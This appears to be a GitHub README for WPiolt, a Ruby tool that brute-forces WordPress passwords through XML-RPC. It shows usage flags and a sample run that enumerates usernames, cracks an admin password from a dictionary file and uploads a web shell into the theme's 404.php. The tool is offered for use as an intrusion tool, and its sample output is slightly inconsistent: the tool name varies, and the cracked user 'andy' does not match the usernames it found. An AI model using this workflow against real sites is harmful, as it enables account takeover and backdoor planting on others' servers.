 #WPiolt

================================================================================================

WPiolt - Wordpress Bruteforce tool via XML-RPC. The basic version only provides limited functionalities.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby WPiolt.rb  -h

EXAMPLE USAGE:

     ./WPilot.rb  -t 'www.target.com' -d '/User/eve/dic.txt'
     ./WPilot.rb  -t '10.0.0.1/wordpress' -d '/User/eve/dic.txt'
    -t, --Target URL/IP              Wordpress target URL or IP
    -d, --Dictionary path            Dictionary file for password Bruteforce.
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby WPilot.rb -t '192.168.0.11/wordpress' -d '/dic'

[Info]     Checking if the target is vulnerable........

[Info]     Target is vulnerable!!!

[Info]     Retreving usernames........

[Info]      Found username: admin

[Info]      Found username: Alice

[Info]      Found username: Bob

[Info]      Bruteforcing passwords ........

[Info]      Cracked Admin Creds: andy:1234567

[Info]      Uploading shell into 404.php..........

[DONE]      Please check a non existing post for the uploaded web shell


